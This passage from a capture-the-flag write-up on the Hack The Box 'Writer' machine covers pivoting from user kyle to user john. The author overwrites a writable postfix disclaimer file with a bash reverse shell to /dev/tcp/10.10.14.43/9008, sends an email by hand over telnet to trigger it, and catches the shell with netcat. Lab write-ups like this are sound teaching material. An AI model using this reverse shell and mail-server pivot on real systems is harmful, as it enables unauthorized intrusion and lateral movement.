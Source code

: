 It works, we're in as kyle and we get the user flag:
```text
kyle@writer:~$ cat user.txt 
455c253ba96fff06--truncated--
```

I spent some time looking to escalate our privileges to root from kyle, but hit some road blocks. Maybe we should be trying to pivot to the john user first?

In our netstat output on the victim, we also saw port 25 was listening on localhost. I also found that I had write access to the disclaimer file. It's pretty well documented the disclaimer file contents are appened to every outgoing e-mail from the victim's mail server.

I deleted everything in the disclaimer file and just added a reverse shell that if executed, connects back to my attacking machine listener:
```
/bin/bash -c '/bin/bash -i >& /dev/tcp/10.10.14.43/9008 0>&1'
```

I then used telnet on port 25 to manually send an e-mail from the john user:

```
helo test
250 writer.htb
MAIL FROM: john@writer.htb
250 2.1.0 Ok
RCPT TO: john@writer.htb
250 2.1.5 Ok
DATA
354 End data with <CR><LF>.<CR><LF>

b00m

.
250 2.0.0 Ok: queued as 189AB838
```

It's important to keep an eye on the disclaimer file as your typing the e-mail though, as there is a cron job where root comes along and overwrites the disclaimer file with the original version. I was able to send the e-mail in time before the overwrite, it ran the reverse shell code that I placed in the disclaimer file, and I receive the shell as the user john:

```
nc -lvp 9008
listening on [any] 9008 ...
connect to [10.10.14.43] from writer.htb [10.129.246.85] 50130
bash: cannot set terminal process group (179679): Inappropriate ioctl for device
bash: no job control in this shell

john@writer:/var/spool/postfix$ whoami
whoami
john
```

First thing's first, john has an ssh key in his home dir, so let's use that to easily upgrade the quality of our shell and maintain some easy persistence.


[1]: https://app.hackthebox.com/users/114053
[2]: https://www.hackthebox.eu